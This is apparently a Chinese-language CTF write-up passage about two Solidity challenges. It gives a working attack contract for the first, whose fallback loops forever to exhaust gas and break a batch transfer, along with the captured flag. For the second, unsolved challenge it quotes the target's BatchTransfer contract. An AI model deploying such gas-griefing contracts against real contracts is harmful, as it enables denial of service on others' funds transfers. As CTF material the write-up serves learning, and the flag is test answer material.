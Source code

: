 ### 转账又失败

没有限制 gas, 所以把gas消耗干净就行了

```solidity
pragma solidity >=0.8.2 <0.9.0;

contract hack {
    fallback() external payable {
        uint256 a = 0;
        do {
            a += 1;
        } 
        while (true);
        require(a > 1);
    }
}
```

`flag{Ple4se_L1m1t_y0uR_GAS_HaHa_1f58a5f99e}`

### 转账再失败 (未解出)

diff 了一下发现和2的区别就是多了个 gas limit:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract BatchTransfer {
    mapping(address => uint256) public pendingWithdrawals;

    function batchTransfer(address payable[] calldata recipients, uint256[] calldata amounts) external payable {
        require(recipients.length == amounts.length, "Recipients and amounts length mismatch");

        uint256 totalAmount = 0;
        uint256 i;

        for (i = 0; i < amounts.length; i++) {
            totalAmount += amounts[i];
        }

        require(totalAmount == msg.value, "Incorrect total amount");

        for (i = 0; i < recipients.length; i++) {
            (bool success, ) = recipients[i].call{value: amounts[i], gas: 10000}("");
            if (!success) {
                pendingWithdrawals[recipients[i]] += amounts[i];
            }
        }
    }

    function withdrawPending() external {
        uint256 amount = pendingWithdrawals[msg.sender];
        pendingWithdrawals[msg.sender] = 0;
        (bool success, ) = payable(msg.sender).call{value: amount}("");
        require(success, "Withdrawal failed");
    }
}
```


  [1]: ./assets//4046521366.webp
  [2]: ./assets//281655009.webp
  [3]: ./assets//4046521366.webp
  [4]: ./assets//1500912061.webp
  [5]: ./assets//3096051582.webp
  [6]: ./assets//557543131.webp